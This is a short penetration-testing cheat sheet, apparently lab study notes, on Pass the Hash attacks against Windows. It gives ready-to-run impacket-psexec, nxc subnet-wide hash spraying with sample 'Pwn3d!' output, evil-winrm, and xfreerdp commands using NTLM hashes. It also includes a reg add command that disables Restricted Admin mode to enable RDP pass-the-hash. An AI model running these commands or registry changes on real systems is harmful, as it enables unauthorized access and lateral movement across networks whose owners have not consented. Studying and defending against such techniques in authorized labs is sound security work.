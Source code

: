 ----
[Impacket](https://github.com/SecureAuthCorp/impacket) has several tools we can use for different operations such as `Command Execution` and `Credential Dumping`, `Enumeration`, etc.

## Pass the Hash with Impacket PsExec
---
```bash
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

## Pass the Hash with nxc
---
nxc is a post-exploitation tool that helps automate assessing the security of large Active Directory networks. We can use nxc to try to authenticate to some or all hosts in a network looking for one host where we can authenticate succesfully as a local admin.

```shell-session
nxc smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```
```shell-session
SMB         172.16.1.10   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:.) (signing:True) (SMBv1:False)
SMB         172.16.1.10   445    DC01             [-] .\Administrator:30B3783CE2ABF1AF70F77D0660CF3453 STATUS_LOGON_FAILURE 
SMB         172.16.1.5    445    MS01             [*] Windows 10.0 Build 19041 x64 (name:MS01) (domain:.) (signing:False) (SMBv1:False)
SMB         172.16.1.5    445    MS01             [+] .\Administrator 30B3783CE2ABF1AF70F77D0660CF3453 (Pwn3d!)
```

## Pass the Hash with evil-winrm
---
[evil-winrm](https://github.com/Hackplayers/evil-winrm) is another tool we can use to authenticate using the Pass the Hash attack with PowerShell remoting. If SMB is blocked or we don't have administrative rights, we can use this alternative protocol to connect to the target machine.

```shell-session
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

## Pass the Hash with RDP
---
We can perform an RDP PtH attack to gain GUI access to the target system using tools like `xfreerdp`.

This can only be done when enabling Restricted Admin Mode on the target machine, otherwise we cannot login with an empty password. This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` with the value of 0. It can be done using the following command:

```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Now we can use RDP for PtH
```shell-session
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```